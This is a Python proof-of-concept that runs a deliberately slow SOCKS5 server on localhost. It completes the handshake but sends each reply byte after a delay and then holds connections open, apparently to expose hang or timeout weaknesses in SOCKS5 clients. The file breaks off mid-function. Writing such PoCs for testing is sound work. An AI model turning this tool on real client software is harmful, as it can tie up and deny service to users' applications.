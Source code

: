 
poc.slow_socks5.py
[03:31:13]
#!/usr/bin/env python3
import socket, time, sys, threading

HOST = '127.0.0.1'
PORT = 1080

def send_slow(conn, data: bytes, delay: float):
    for b in data:
        try:
            conn.send(bytes([b]))
        except BrokenPipeError:
            return
        time.sleep(delay)

def handle_client(conn, addr, delay):
    try:
        conn.settimeout(10)
        # Read greeting: VER, NMETHODS, METHODS...
        hdr = conn.recv(2)
        if len(hdr) < 2:
            return
        ver = hdr[0]
        nmethods = hdr[1]
        _ = conn.recv(nmethods)
        # Send method selection: no auth (0x00)
        send_slow(conn, bytes([0x05, 0x00]), delay)
        # Read request header
        req = conn.recv(4)
        if len(req) < 4:
            pass
        # Parse atyp to consume rest
        atyp = req[3] if len(req) >= 4 else 0
        if atyp == 0x01:  # IPv4
            _ = conn.recv(4 + 2)
        elif atyp == 0x03:  # DOMAINNAME
            ln_b = conn.recv(1)
            if ln_b:
                ln = ln_b[0]
                _ = conn.recv(ln + 2)
        elif atyp == 0x04:  # IPv6
            _ = conn.recv(16 + 2)
        # Send success reply with delays
        reply = bytes([0x05, 0x00, 0x00, 0x01, 0,0,0,0, 0,0])
        send_slow(conn, reply, delay)
        # Keep alive
        try:
            while True:
                time.sleep(1)
        except KeyboardInterrupt:
            pass
    except Exception:
        pass
    finally: